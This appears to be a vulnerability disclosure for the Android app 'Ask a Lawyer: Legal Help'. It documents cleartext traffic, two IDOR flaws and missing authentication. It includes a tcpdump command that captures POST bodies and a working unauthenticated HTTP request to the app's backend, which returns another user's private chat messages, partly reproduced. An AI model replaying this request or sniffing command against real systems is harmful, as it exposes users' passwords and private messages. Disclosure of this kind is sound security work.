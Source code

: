 ## Summary
Software name: "Ask a Lawyer: Legal Help"

Software link: https://play.google.com/store/apps/details?id=com.absmallbusinessmarketing.askalawyer

Version: 2.1.0

## Issue #1 - Unencrypted communications
Description: The application allows users to connect to it over unencrypted connections. 
An attacker suitably positioned to view a legitimate user's network traffic could record and monitor their interactions with the application and obtain any information the user supplies.

POC:
```
tcpdump -s 0 -A 'tcp dst port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'
```
![Sniff clear text password](/Images/com.absmallbusinessmarketing.askalawyer/Sniff_HTTP_Data.PNG)

## Issue #2 - Insecure Direct Object References lead to all account takeover
Description: IDOR at **reset password function**, via **username** parameter, an attacker can guess username and get some sensitive information from
response like: **userinfo, password, email, secquestions,...**

POC:
![Guess users](/Images/com.absmallbusinessmarketing.askalawyer/IDOR%20-%20Guess%20user%20name.PNG)
![Attack user A](/Images/com.absmallbusinessmarketing.askalawyer/IDOR%20-%20Takeover%20account%20a.PNG)
![Attack user User](/Images/com.absmallbusinessmarketing.askalawyer/IDOR%20-%20Takeover%20account%20user.PNG)

## Issue #3 - Insecure Direct Object References lead to read private messages
Description: IDOR at **Read messages function**, via **userid** parameter, an attacker can perform IDOR attack that lead to read private messages

POC:
![IDOR Attack with Burp Intruder](/Images/com.absmallbusinessmarketing.askalawyer/Attack%20IDOR%20userid%20parameter%20with%20Burp%20Intruder%201.PNG)
![IDOR Attack with Burp Intruder](/Images/com.absmallbusinessmarketing.askalawyer/Attack%20IDOR%20userid%20parameter%20with%20Burp%20Intruder%202.PNG)
![IDOR Attack with Burp Intruder](/Images/com.absmallbusinessmarketing.askalawyer/Attack%20IDOR%20userid%20parameter%20with%20Burp%20Intruder%203.PNG)

## Issue #4 - Unauthenticated Access
Description: This app do not import any authorization mechanisms that help an attacker can exploit vulnerabilities easier.

POC:

Request
```
POST /lawyer/mobileservice.php HTTP/1.1
Host: www.abliveclient.com
Content-Length: 40
Accept: application/json, text/javascript, */*; q=0.01
Origin: file://
User-Agent: Mozilla/5.0 (Linux; Android 4.4.4; Samsung Galaxy S5 Build/KTU84P) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/33.0.0.0 Mobile Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: en-US
X-Requested-With: com.absmallbusinessmarketing.askalawyer
Connection: close

action=get_chat_history&userid=1&msgno=0
```
Response
```
HTTP/1.1 200 OK
Date: Sun, 03 Mar 2019 09:33:05 GMT
Server: Apache/2.2.31 (Unix) mod_ssl/2.2.31 OpenSSL/1.0.1e-fips mod_bwlimited/1.4
X-Powered-By: PHP/5.4.45
Access-Control-Allow-Origin: *
Connection: close
Content-Type: text/html
Content-Length: 4884

{"success":"1","list":[{"0":"256","id":"256","1":"1","userid":"1","2":"0","agentid":"0","3":"0","msgtype":"0",
"4":"hello jeriamiah","msg":"hello jeriamiah","5":"2013-12-07 18:40:37","sendtime":"2013-12-07 18:40:37","6":"1","status":"1"},
{"0":"233","id":"233","1":"1","userid":"1","2":"0","agentid":"0","3":"0","msgtype":"0","4":"check","msg":"check",
"5":"2013-11-25 10:02:37","sendtime":"2013-11-25
...
```
